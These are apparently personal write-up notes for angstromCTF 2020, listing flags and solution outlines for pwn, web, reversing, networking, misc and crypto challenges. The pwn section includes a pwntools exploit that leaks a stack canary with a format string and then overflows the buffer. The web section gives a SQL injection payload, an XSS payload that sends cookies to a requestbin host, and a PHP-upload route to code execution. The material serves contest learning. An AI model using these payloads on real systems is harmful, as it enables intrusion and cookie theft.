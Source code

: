 # angstromCTF 2020
###### tags: `Course`

## pwn

### Canary

flag: actf{youre_a_canary_killer_>:(}
string format problem: leak canary with string format then bof

payload:

```lang=c
from pwn import *
flag = p64(0x400787)
r = remote('shell.actf.co',20701)
print(r.recvuntil(" name? "))
payload = '%17$p'
r.sendline(payload)
data = r.recvuntil("\n")
canary = data.split(',')[-1].strip()[:-1]
canary_int = p64(int(canary,16))
print(r.recvuntil("Anything else you want to tell me? "))
payload = "a"*56 + canary_int + 'b'*8 + flag
r.sendline(payload)
r.interactive()
```

#### Reference
[format string wiki](https://en.wikipedia.org/wiki/Printf_format_string)
kaibro edu-ctf
[ctf wiki](https://ctf-wiki.github.io/ctf-wiki/pwn/linux/fmtstr/fmtstr_exploit-zh/)
[format string course](https://github.com/qazbnm456/ctf-course/blob/master/slides/w4/format-string.md)

### BOP it! (Not solved)

memory leak with null bytes

https://github.com/r00tstici/writeups/blob/master/angstromCTF_2020/bop_it/README.md

## Web

### Consolation

flag: actf{you_would_n0t_beli3ve_your_eyes}

given a js file below, just find the function that would output the flag

```lang=c
console[_0x4229('0x14', '70CK')](_0x4229('0x38', 'rwU*'));
```

### Secret agent

flag: actf{nyoom_1_4m_sp33d}

simple sql injection(mysql) which reads the payload from user-agent field.

1. Utilize burp-suite to intercept requests.
2. Modify the user-agent to the payload below.


payload

> Roselia' or 1=1 limit 2,1 #

### xmass still stand - not solved

xss attack
payload:

> <img src=x onerror='requestbin?cookie='+document.cookie>

### Defund's Crypt - not solved

LFI attack(rce not reverse shell)
upload php file and changes the MIME type and extension to jpg
Visit the php file to rce


## Reverse

### Windows of Opportunity

flag: actf{ok4y_m4yb3_linux_is_s7ill_b3tt3r}

simply use idapro and will find the flag


### Autorev, Assemble! - Not solved

hundreds of functions with simple comparison
construct the string based on the given functions

utilize angr to solve the challenge

[Reference](https://github.com/archercreat/CTF-Writeups/blob/master/angstromctf/rev/Autorev%2C%20Assemble!/README.md)

### patcherman - Not Solved

patch program(section issue)

## Networking

### wireshark-2

flag: actf{ok_to_b0r0s-4809813}

reconstruct the jpeg file to gain the flag. After inspect the traffic, you'll find a packet with images, extract the image from the packet.

![](https://i.imgur.com/IIucaLx.png)


#### tools & reference

[wireshark refrence psh,ack](https://osqa-ask.wireshark.org/questions/20423/pshack-wireshark-capture)

[repair jpeg](https://online.officerecovery.com/pixrecovery/)

[eof of jpeg](https://stackoverflow.com/questions/4585527/detect-eof-for-jpg-images)


### ws3

flag: actf{git_good_git_wireshark-123323}

Git packfile reconstruction

Given a pcap file. Inspect the pcap file than you will find several http request / response related to git-receive packet and git-response packet.
These traffic are request and response of files in git directory. To be more specific, the users are trying to fetch the data from remote repo.

[git fetching mechanism](https://stackoverflow.com/questions/27430312/what-does-git-fetch-really-do)

basically, client will first invoke upload-pack to remote repo, the repo will then compare the latest packfile with the uploaded one. Eventuall,y the repo will return those commit, objects that client lack to the client

In conclusion, those objects / commit received from repo contains the flag.

This is the main commit / objects.

![](https://i.imgur.com/6BpFvYh.png)

After reassemble the whole packet, retrieve the packet start from PACK to the end. This will be our packfile.
Save the packfile to .pack extension.

run the command to gain the idx file

> git index-pack *.pack

follow this youtube vedio to reconstruct the objects

https://www.youtube.com/watch?v=cauIy20JhFs

Then simply run git cat-file -p to gain the flag

![](https://i.imgur.com/2BIgoJq.jpg)


#### reference

[hex to binary](https://tomeko.net/online_tools/hex_to_file.php?lang=en)

[git packfile doc](https://git-scm.com/book/en/v2/Git-Internals-Packfiles)

[packfile structure-1](https://codewords.recurse.com/issues/three/unpacking-git-packfiles)

[packfile structure-2](http://shafiul.github.io/gitbook/7_the_packfile.html)

[unpack packfile](https://www.youtube.com/watch?v=cauIy20JhFs)

[git command](https://www.juduo.cc/technique/62040.html)

[git unpack-objects](https://git-scm.com/docs/git-unpack-objects)


## misc

### inputter

flag: actf{impr4ctic4l_pr0blems_c4ll_f0r_impr4ctic4l_s0lutions}

reverse the code and input the argument with pwntools(arguments are not printable)

We have to solve this challenge through logging the shell and run the program.

Since the argv argument nor the fgets target is printable ascii
we should use pwnlib to tackle the unprintable ascii input issue

```lang=c
from pwn import *
r = process(["./inputter"," \n'\"\a"])
r.sendline("\0")
print(r.recv())
```

### Shifter

flag:actf{h0p3_y0u_us3d_th3_f0rmu14-1985098}

simply implement ceasar cipher + dynamic programming

## Crypto

### keysar

flag: actf{yum_delicious_salad}

keyed ceasar: http://rumkin.com/tools/cipher/caesar-keyed.php

### Confused Streaming (Not solved)

Lots of meaning less function, just simply give input a,b,c which are valid parameter for a quadratic formula(二次方程式)

### One-Time bed (Not solved)

OTP with random(time.time()) vulnerability. Same seed generate same random number
However, failed to use the right seed, not any clue why it doesn't work.
In this challenge, we can simply utilize brute force or multiple connection to solve the problem.

[brute force](https://masrt200.github.io/hacker-blog/Angstrom-CTF)
[multiple connection](https://ctftime.org/writeup/18932)